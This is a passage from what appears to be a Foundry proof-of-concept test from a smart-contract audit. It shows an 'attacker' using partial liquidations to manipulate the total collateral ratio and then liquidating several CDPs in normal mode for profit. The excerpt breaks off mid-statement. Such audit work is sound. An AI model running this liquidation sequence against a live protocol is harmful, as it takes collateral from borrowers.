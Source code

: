 ```
            isAvailableToLiq = _checkAvailableToLiq(cdpIds[2], price);
            console.log("Is available to liquidate CDP_123ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_123ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[2]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_123ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 124%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[3], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[3], price);
            console.log("Is available to liquidate CDP_124ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_124ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[3]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_124ICR: ", TCR);

                console.log("There is no CDP (TCR <= ICR < CCR)");
            }

            console.log("-- Now the attacker will liquidate some CDPs (ICR <= TCR) < CCR to earn more money --");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            console.log("CDP_110ICR = ", icr0);
            console.log("- Liquidate CDP_110ICR fully");
            vm.prank(user);
            cdpManager.liquidate(cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR after LiqCDP_110ICR fully: ", TCR);
            console.log("!!!System is in NormalMode liquidating 4 CDPs including the first CDP!!!");

            console.log("\n");

            console.log("Is CDP_110ICR liquidated? ", !sortedCdps.contains(cdpIds[0]));
            console.log("Is CDP_122ICR liquidated? ", !sortedCdps.contains(cdpIds[1]));
            console.log("Is CDP_123ICR liquidated? ", !sortedCdps.contains(cdpIds[2]));
            console.log("Is CDP_124ICR liquidated? ", !sortedCdps.contains(cdpIds[3]));
            console.log("Is CDP_133ICR liquidated? ", !sortedCdps.contains(cdpIds[4]));

            console.log("CDP size: ", sortedCdps.getSize());

            uint256 _stETHBalance = collateral.balanceOf(user);
```